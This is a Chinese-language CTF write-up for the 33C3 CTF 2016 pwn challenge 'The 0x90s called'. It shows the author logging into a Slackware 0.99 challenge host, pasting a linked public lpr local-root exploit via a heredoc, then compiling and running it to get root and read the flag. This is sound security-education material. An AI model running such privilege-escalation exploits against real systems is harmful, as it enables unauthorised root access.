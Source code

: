 ```yaml
---
title: "[33C3 CTF 2016] The 0x90s called 150"
author: bruce30262
tags:
- pwn
- loca root
- 33C3 CTF 2016
categories:
- write-ups
date: '2016-12-31'
layout: post
---
```


## Info  
> Category: pwn  
> Point: 150  
> Author: bruce30262 @ BambooFox

## Analyzing
首先我們會需要到一個網頁來"啟動"我們的 challenge session。啟動後網頁會告訴我們 port 要連多少 ( IP 則是跟 web service 同一個 IP )，並告訴我們帳號密碼。一個 session 的連線時間為 5 分鐘。

nc 連過去並登入遠端機器之後，我們會發現這是一個 [Slackware Linux](http://www.slackware.com/):
```
$ nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ uname -a
Linux slack 0.99.12 #6 Sun Aug 8 16:02:35 CDT 1993 i586
```
隨意逛了一下，會發現在根目錄有個 flag.txt:
```
slack:/$ ls -al /flag.txt
-r--------   1 root     root           36 Dec 27  1916 /flag.txt
```

看來我們需要一個 local root 的 exploit 來解這題


## Exploit
強大的 google 使得我們很快就找到了 slackware linux 0.99 local root exploit 的 [PoC](https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c)。接下來只要想辦法把 PoC 傳到遠端機器上，然後編譯執行 exploit 即可。

問題是這題要傳 PoC 很麻煩，因為遠端機器根本沒有 tool 可以幫助我們下載檔案 --- 沒有 wget，沒有 curl，甚至連 nc 都沒有 ! 然後上面的 vi 編輯器難用到掉渣 ! 最後決定使用 `cat <<'EOF' >> test.c` + 複製貼上的方式將 exploit 寫入 test.c 裡頭

之後只要編譯執行 local root 的 exploit，即可拿到 root 權限並得到 flag:
```
slack:~$ gcc -o test test.c
slack:~$ ./test
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```

flag: `33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3`